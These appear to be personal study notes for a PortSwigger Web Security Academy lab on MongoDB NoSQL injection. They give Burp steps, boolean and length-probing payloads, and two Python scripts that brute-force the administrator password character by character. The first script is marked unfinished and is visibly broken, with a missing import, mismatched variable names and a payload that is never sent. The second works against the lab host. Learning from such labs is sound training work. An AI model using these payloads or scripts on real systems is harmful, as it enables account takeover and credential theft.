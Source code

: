 The user lookup functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.

To solve the lab, extract the password for the `administrator` user, then log in to their account.

You can log in to your own account using the following credentials: `wiener:peter`.

_Tip: the password only uses lowercase letters._

---

Goal: Extract the password for the `administrator` user, then log in to their account.

Login post request:

![[IMG/Pasted image 20240919112731.png]]

`csrf=X1U2BcHazmR2IMhHbe6dqh6WUsxgR2mL&username=administrator&password=test`

- In Burp, go to **Proxy > HTTP history**. Right-click the `GET /user/lookup?user=wiener` request and select **Send to Repeater**.
    
- In Repeater, submit a `'` character in the user parameter. Notice that this causes an error. This may indicate that the user input was not filtered or sanitized correctly.
    
- Submit a valid JavaScript payload in the `user` parameter. For example, you could use `wiener'+'`
    
    Make sure to URL-encode the payload by highlighting it and using the hotkey `Ctrl-U`. Notice that it retrieves the account details for the `wiener` user, which indicates that a form of server-side injection may be occurring.
    
- Identify whether you can inject boolean conditions to change the response:
    
    1. Submit a false condition in the `user` parameter. For example: `wiener' && '1'=='2`
        
        Make sure to URL-encode the payload. Notice that it retrieves the message `Could not find user`.
        
    2. Submit a true condition in the user parameter. For example: `wiener' && '1'=='1`
        
        Make sure to URL-encode the payload. Notice that it no longer causes an error. Instead, it retrieves the account details for the `wiener` user. This demonstrates that you can trigger different responses for true and false conditions

- Identify the password length:
    
    1. Change the user parameter to `administrator' && this.password.length < 30 || 'a'=='b`, then send the request.
        
        Make sure to URL-encode the payload. Notice that the response retrieves the account details for the `administrator` user. This indicates that the condition is true because the password is less than 30 characters.
        
    2. Reduce the password length in the payload, then resend the request.
    3. Continue to try different lengths.
    4. Notice that when you submit the value `9`, you retrieve the account details for the `administrator` user, but when you submit the value `8`, you receive an error message because the condition is false. This indicates that the password is 8 characters long.

- In Intruder, enumerate the password:
    
    1. Change the user parameter to `administrator' && this.password[§0§]=='§a§`. This includes two payload positions. Make sure to URL-encode the payload.
    2. Set the attack type to **Cluster bomb**.
    3. In the **Payloads** tab, make sure that **Payload set 1** is selected, then add numbers from 0 to 7 for each character of the password.
    4. Select **Payload set 2**, then add lowercase letters from a to z. If you're using Burp Suite Professional, you can use the built-in `a-z` list.
    5. Click **Start attack**.
    6. Sort the attack results by **Payload 1**, then **Length**. Notice that one request for each character position (0 to 7) has evaluated to true and retrieved the details for the `administrator` user. Note the letters from the **Payload 2** column down.






---

Script details

pass length 8

32/126

payload:

```php
administrator' && this.password[§0§]=='§a§
```

Post /login

needs session and csrf token.

Unfinished
```php
#!/usr/bin/python3

import urllib3
import sys
import requests
import urllib

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'https': 'http://127.0.0.1:8080', 'http': 'http://127.0.0.1:8080'}


def get_csrf(s, url):
    r = s.get(url, verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, 'html.parser')
    csrf = soup.find("input")['value']
    return csrf

def get_pass(s, url):
	pass_extracted = ''
	# CSRF
	csrf = get_csrf(s,url)
	# pass length
	for i in range(1,9):
	# ascii table
		for j in range(32,126):
			payload = "administrator' && this.password[%s]=='%s" %(i,j)
			#csrf = 
			
			sqli_payload_encoded = urllib.parse.quote(payload)
			
			r = s.get(url, verify=False, proxies=proxies)
	
			
			if '200' in r.text:
				password_extracted += chr(j)
				sys.stdout.write('\r' + password_extracted)
				sys.stdout.flush()
				break # Break out of the for loop and move to the next
	
			else:
				sys.stdout.write('\r' + password_extracted + chr(j))
				sys.stdout.flush()


def main():
	if len(sys.argv) != 2:
		print("[+] Usage: %s <URL>" % sys.argv[0])
		print("[+] Example: %s www.example.com/" % sys.argv[0])
		sys.exit(-1)
		
	url = sys.argv[1]
	s = requests.Session()
	print("[+] Trying to get password...")
	get_pass(s, url)

if __name__ == '__main__':
	main()
	
```



```python
import requests
from bs4 import BeautifulSoup
from string import ascii_letters

class Exploit:
    def __init__(self, baseUrl):
        self.baseUrl = baseUrl
        self.session = requests.Session()

    def getCSRFToken(self):
        print('[*] Fetching the CSRF token...')
        global LOGIN_ENDPOINT
        LOGIN_ENDPOINT = '/login'
        csrfTokenRespond = self.session.get(f'{self.baseUrl}{LOGIN_ENDPOINT}')
        
        soup = BeautifulSoup(csrfTokenRespond.text, 'html.parser')
        csrfToken = soup.find('input', {'name':'csrf'}).get('value')
        sessionCookie = self.session.cookies.get_dict()['session']
        print(f'[+] Fetched the CSRF token: {csrfToken}')
        print(f'[+] Session cookie: {sessionCookie}')
        return csrfToken

    def login(self):
        csrfToken = self.getCSRFToken()
        username = 'wiener'
        password = 'peter'
        loginData = {
            'csrf': csrfToken,
            'username': username,
            'password': password
        }
        print('[*] Logging in to the web application...')
        loginRespond = self.session.post(f'{self.baseUrl}{LOGIN_ENDPOINT}', data=loginData)
        if loginRespond.status_code == 400:
            print('[-] Login failed... Maybe the CSRF token is incorrect?')
            print(f'[-] Response text:\n{loginRespond.text}')
            exit(1)
        print('[+] Login successfully!')

    def extractData(self):
        USER_LOOKUP_ENDPOINT = '/user/lookup'
        USER_LOOK_PARAMETER = 'user'
        TARGET_USERNAME = 'administrator'
        LAST_CHARACTER = ascii_letters[-1]
        print(f'[*] Extracting {TARGET_USERNAME}\'s password...')
        password = ''
        stringPosition = 0
        while True:
            for character in ascii_letters:
                print(f'[*] Trying character "{character}"...', end='\r')
                payload = requests.utils.quote(f"{TARGET_USERNAME}' && this.password[{stringPosition}] == '{character}' || 'a'=='b")
                userLookupRespond = self.session.get(f'{self.baseUrl}{USER_LOOKUP_ENDPOINT}?{USER_LOOK_PARAMETER}={payload}')
                userLookupRespondJson = userLookupRespond.json()
                isLastCharacter = character == LAST_CHARACTER
                if 'message' in userLookupRespondJson:
                    if isLastCharacter:
                        print('[-] Looped all possible characters, no luck. Maybe we found all the password characters?')
                        print(f'[*] Password: {password}')
                        exit(1)
                    continue
                stringPosition += 1
                password += character
                print(f'[+] Found correct character "{character}". Current password: {password}')
                break

if __name__ == '__main__':
    baseUrl = 'https://0ade00e60326fdd58cade324003900c8.web-security-academy.net'
    exploit = Exploit(baseUrl)

    exploit.login()
    exploit.extractData()

```